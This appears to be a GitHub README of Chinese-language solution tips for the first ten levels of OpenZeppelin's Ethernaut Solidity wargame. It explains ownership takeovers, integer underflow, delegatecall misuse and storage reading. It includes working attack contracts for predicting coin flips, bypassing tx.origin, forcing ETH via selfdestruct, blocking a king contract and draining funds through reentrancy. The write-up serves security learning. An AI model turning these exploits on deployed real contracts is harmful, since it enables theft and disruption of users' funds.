 
Tips to [The Ethernaut](https://ethernaut.openzeppelin.com/) of openzeppelin

# Solution

## [01 - Fallback](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)
1. 先调contribute, 再给合约地址transfer资金(调用 receive函数)， 就能直接获取ownership, 然后可调withdraw
2. 可调用contribute 每次转一点ether，贡献金额足够大就能变成owner


## [02 - Fallout](https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639)
注释 `/* constructor */` 并不是真的 constructor, 只是一个普通函数，直接调用就能获取ownership，`后一个字母l是数字1`


## [03 - CoinFlip](https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF)
deploy another contract to calculate the result
传入CoinFlip合约地址，部署CoinFlipSlove合约，调用CoinFlipSlove.guess去猜结果
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipSlove {
  uint256 public consecutiveWins;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address coinFlipAddr;

  constructor(address _coinFlipAddr ) {
    consecutiveWins = 0;
    coinFlipAddr = _coinFlipAddr;
  }

  function guess() public returns (bool) {
    require(consecutiveWins <= 3, "enough guesses");

    uint256 blockValue = uint256(blockhash(block.number - 1));

    uint256 flip = blockValue / FACTOR;
    bool side = flip == 1 ? true : false;

    bool r = CoinFlip(coinFlipAddr).flip(side);

    if (r) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```


## [04 - Telephone](https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446)
deploy another contract to attack
solitidy 文档也强调声明了不要使用[tx.origin](https://docs.soliditylang.org/en/v0.8.20/security-considerations.html#tx-origin) 来做鉴权
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneAttack {
  function attack(address _telephoneAddr, address _owner) public {
    Telephone(_telephoneAddr).changeOwner(_owner);
  }
}
```


## [05 - Token](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)
数值越界问题, transfer 超过msg.sender balance数量的value，msg.sender会出现超大的余额(负值被解析成了uint类型)
```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```


## [06 - Delegation](https://ethernaut.openzeppelin.com/level/0x73379d8B82Fda494ee59555f333DF7D44483fD58)
[delegatecall](https://solidity-by-example.org/delegatecall/)
When contract A executes delegatecall to contract B, B's code is executed
with contract A's storage, msg.sender and msg.value.
所以，当调用Delegation 执行 pwn() 时，改变的owner并不是Delegate的owner，实际是Delegation的owner
并且，delegatecall时，msg.sender and msg.value 是调用 Delegation 的sender，是实际交易发起者


## [07 - Force](https://ethernaut.openzeppelin.com/level/0xb6c2Ec883DaAac76D8922519E63f875c2ec65575)
不能使用常规transfer方法给 Force address 转ETH，因为合约没有receive 方法， 也没有fallback 方法
但任何地址能被迫接收ETH当一个合约调用 [selfdestruct](https://solidity-by-example.org/hacks/self-destruct/) 方法，合约剩余的ETH会被转移到指定地址
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
    function attack(address _forceAddr) external {
        selfdestruct(payable(_forceAddr));
    }
    receive() external payable {}
}
```


## [08 - Vault](https://ethernaut.openzeppelin.com/level/0xB7257D8Ba61BD1b3Fb7249DCd9330a023a5F3670)
eth_getStorageAt 能够获取到password的值


## [09 - King](https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6)
contract 成为king之后，不接受ETH，游戏就会卡在这里，无法继续下去
```solidity
contract KingAttack {
    function attack() external payable {
        require(msg.value == 1 ether, "please send exactly 1 ether");
        // claim throne
        // use call here instead of challenge.transfer because transfer
        // has a gas limit and runs out of gas
        (bool success, ) = payable(address(challenge)).call{value: msg.value}("");
        require(success, "External call failed");
    }

    receive() external payable {
        require(false, "cannot claim my throne!");
    }
}
```


## [10 - Reentrance](https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6)
仅 solidity 0.8.0版本之前的合约可以进行攻击, 因为 Solidity v0.8.0 引入了 [implicit overflow/underflow check](https://docs.soliditylang.org/en/v0.8.0/080-breaking-changes.html)
还有一个点需注意， Reentrance 若使用 `transfer` 替换 `(bool result,) = msg.sender.call{value:_amount}("");` 也无法攻击， 
因为 `address.transfer() has a gas limit of 2100. Its enough for emitting an event but not enough for victim.withdraw() `
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./Reentrance.sol";

contract ReentranceAttact {
    Reentrance holder;
    uint256 initialAmount;

    constructor(address _holder) public {
        holder = Reentrance(payable(_holder));
    }

    function attack() external payable {
        initialAmount = msg.value; 
        holder.donate{value: initialAmount}(address(this));

        callWithdraw();
    }
    
    receive() external payable {
        callWithdraw();
    }

    function callWithdraw() private {
        uint256 leftover = address(holder).balance;
         bool keepRecursing = leftover > 0;

        if (keepRecursing) {
            uint256 amount = initialAmount > leftover ? leftover : initialAmount;
            holder.withdraw(amount);
        }
    }
}
```
[参考](https://ethereum.stackexchange.com/questions/119737/recreating-a-re-entrancy-attack-but-transaction-failed-reverted-why)